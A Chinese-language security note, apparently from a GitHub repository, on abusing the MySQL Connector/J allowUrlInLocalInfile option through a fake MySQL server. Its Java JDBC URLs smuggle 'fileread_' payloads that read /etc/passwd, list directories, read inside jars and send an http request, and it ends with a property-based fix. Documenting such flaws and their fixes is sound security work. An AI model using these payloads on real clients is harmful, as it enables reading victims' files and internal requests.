


## allowUrlInLocalInfile的使用

### 原理

在`mysql-connector-java`包中存在一个`sendFileToServer`方法

> 当然，这个方法在不同的版本所处的包位置不同，我这里是使用的`5.1.48`版本

在 3.0.3版本开始存在 参见官方文档：[MySQL :: MySQL Connector/J 8.0 Developer Guide :: 6.3.5 Security](https://dev.mysql.com/doc/connector-j/8.0/en/connector-j-connp-props-security.html)



在这里将会判断是否开始了选项，如果开启了就会进入`else`语句中，首先会判断是否存在`:`之后才会将其作为URL类构造函数的参数，后面进行请求

### 使用http协议

使用[工具](tools/MySQL_Fake_Server)搭建mysql服务

之后开启`8888`端口的监听

```java
//test.java
public class Test {
    public static void main(String[] args) throws ClassNotFoundException, SQLException {
        Class.forName("com.mysql.jdbc.Driver");
        String url = "jdbc:mysql://127.0.0.1:3306/test?user=fileread_http://127.0.0.1:8888/&maxAllowedPacket=655360&allowUrlInLocalInfile=true";
        Connection con = DriverManager.getConnection(url);
    }
}
```



成功请求，说明可以获得回显的内容

### 使用file协议

#### 读取内网文件

```java
public class Test {
    public static void main(String[] args) throws ClassNotFoundException, SQLException {
        Class.forName("com.mysql.jdbc.Driver");
        String url = "jdbc:mysql://127.0.0.1:3306/test?user=fileread_file:///etc/passwd&maxAllowedPacket=655360&allowUrlInLocalInfile=true";
        Connection con = DriverManager.getConnection(url);
    }
}
```

#### 列目录

```java
public class Test {
    public static void main(String[] args) throws ClassNotFoundException, SQLException {
        Class.forName("com.mysql.jdbc.Driver");
        String url = "jdbc:mysql://127.0.0.1:3306/test?user=fileread_file:///.&maxAllowedPacket=655360&allowUrlInLocalInfile=true";
        Connection con = DriverManager.getConnection(url);
    }
}
```

### 使用jar协议

```java
jdbc:mysql://127.0.0.1:3306/test?user=fileread_file:///test.jar!/META-INF/MANIFEST.MF&maxAllowedPacket=655360&allowUrlInLocalInfile=true
```

## 修复

使用属性进行覆盖

```java
public class Test {
    public static void main(String[] args) throws ClassNotFoundException, SQLException {
        Class.forName("com.mysql.jdbc.Driver");
        String url = "jdbc:mysql://127.0.0.1:3306/test?user=fileread_E:/tools.md&maxAllowedPacket=655360&allowUrlInLocalInfile=true";
        Properties properties = new Properties();
        properties.setProperty("allowLoadLocalInfile","false");
//        properties.setProperty("allowUrlInLocalInfile", "false");
        Connection con = DriverManager.getConnection(url, properties);
    }
}
```

